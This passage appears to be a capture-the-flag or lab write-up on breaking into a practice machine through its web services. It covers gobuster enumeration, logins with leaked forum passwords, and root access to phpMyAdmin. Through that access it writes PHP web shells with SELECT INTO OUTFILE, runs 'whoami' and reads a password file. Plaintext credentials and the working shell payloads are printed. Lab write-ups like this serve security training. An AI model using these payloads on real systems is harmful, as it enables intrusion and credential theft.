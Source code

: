 ## Path 4 - Entry via web services
After using nmap to get information about services running which are facing to the web, I used gobuster to enumerate the directories which can be accessed.

Below is the enumeration for the HTTPS port
![image](https://hackmd.io/_uploads/HyOK-Id46.png)

Below is the enumeration for the HTTP port
![image](https://hackmd.io/_uploads/ryK2ZId4p.png)

There are a few services we can access from the HTTPS endpoint, like `/forum`, `/phpmyadmin` and `/webmail`. I first went to the forum to see what is it.

I was greeted with a reddit like forum like below, however I noticed an intresting topic regarding login failure
![image](https://hackmd.io/_uploads/H1gPMLOE6.png)

I did find a password-like string in the post, So im trying to use that password `!q\]Ej?*5K5cy*AJ` to login to various users on the platform.
![image](https://hackmd.io/_uploads/HyJVQIOEa.png)

I used the password on user lmezard and I was able to login to his account on the forum.
![image](https://hackmd.io/_uploads/HJDFXIdVa.png)

![image](https://hackmd.io/_uploads/ByvTrLdEa.png)

I found his email address and I went to the webmail service to log in using that address and password; and I see some intresting stuff

![image](https://hackmd.io/_uploads/r1sJIIOVp.png)
![image](https://hackmd.io/_uploads/SJLNI8uNa.png)

I went to phpmyadmin and tried the credentials `root/Fg-'kKXBj87E:aJ$`, and I am able to access the dashboard as root.
![image](https://hackmd.io/_uploads/S16Y8LON6.png)

At this point, I have tried deciphering the passwords and whatnot, but I seem to fail to determine the exact encryption method of the passwords. But I stumbled upon this [article](https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2) that gave me directions on how to move forward. 

As the article suggests, we can actually use the MYSQL executor in phpmyadmin to write create new files nad write content to them using `SELECT INTO OUTFILE`, which is originally made to serve as a convinience tool to quickly parse sql results into files. However, we can also write our own content into the outfile as long as it does not get changed by the query itself.

And since the service is running in apache with php, which means we can access php files in the browser and it will execute the file to return the web content. With that said, the strategy is to execute something using the browser, and we can specify the things we want to execute with the `SELECT INTO OUTFILE` on phpmyadmin.

For a proof of concept, we can try to execute this sql statement
```sql=
SELECT "<?php $output = shell_exec('whoami'); echo $output  ?>" INTO OUTFILE "/var/www/forum/whoami.php;"
```

We should be able to head to `ipaddr/forum/whoami.php` and see the output of the command `whoami`. But it turns out I dont have permissions to write to that folder.
![image](https://hackmd.io/_uploads/SJqSl1KVp.png)

I went to the [source](https://github.com/My-Little-Forum/mylittleforum) code for the forum page they are using and found out there are other directories like `backups, config, images...` and turns out I can access the `templates_c` directory
![image](https://hackmd.io/_uploads/S1QYW1YET.png)

So i changed my script to write in the images directory instead
```sql=
SELECT "<?php $output = shell_exec('whoami'); echo $output  ?>" INTO OUTFILE "/var/www/forum/templates_c/whoami.php";
```

and I got the result when running the php file.
![image](https://hackmd.io/_uploads/Bk8EMJF4a.png)

After some searching around with this command, I am able to get the password to the lmezard machine 
```sql=
SELECT "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" INTO OUTFILE "/var/www/forum/templates_c/lookatme.php";
```

![image](https://hackmd.io/_uploads/rJIoM1FEp.png)

**Refer to part 1 for the rest of the steps**
